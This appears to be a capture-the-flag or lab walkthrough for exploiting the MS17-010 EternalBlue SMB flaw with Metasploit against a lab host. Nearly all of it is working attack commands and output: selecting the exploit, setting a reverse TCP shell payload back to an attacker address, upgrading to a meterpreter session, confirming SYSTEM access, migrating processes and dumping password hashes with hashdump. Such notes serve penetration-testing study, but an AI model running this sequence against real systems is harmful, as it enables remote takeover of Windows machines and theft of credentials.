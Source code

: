 #### MSF

Searching:
```
search ms17-010

Matching Modules
================

   #  Name                                           Disclosure Date  Rank     Check  Description
   -  ----                                           ---------------  ----     -----  -----------
   0  auxiliary/admin/smb/ms17_010_command           2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   1  auxiliary/scanner/smb/smb_ms17_010                              normal   No     MS17-010 SMB RCE Detection
   2  exploit/windows/smb/ms17_010_eternalblue       2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   3  exploit/windows/smb/ms17_010_eternalblue_win8  2017-03-14       average  No     MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption for Win8+
   4  exploit/windows/smb/ms17_010_psexec            2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   5  exploit/windows/smb/smb_doublepulsar_rce       2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution
```

Using the exploit:
```
use exploit/windows/smb/ms17_010_eternalblue
show options
set payload windows/x64/shell/reverse_tcp
set RHOSTS 10.10.123.129
set LHOST 10.9.5.114
exploit

* should spawn a reverse shell
* ctrl + z to background it
```

Upgrade to meterpreter shell:
```
search shell_to_meterpreter
use post/multi/manage/shell_to_meterpreter
show options
sessions -l
set SESSION <exploit-shell-session-id>
exploit
sessions -i <meterpreter-session-id>

* should get a meterpreter shell here
```

Meterpreter:
```
shell
  -> whoami
     * NT AUTHORITY\SYSTEM
ps
migrate <process id>
hashdump
```
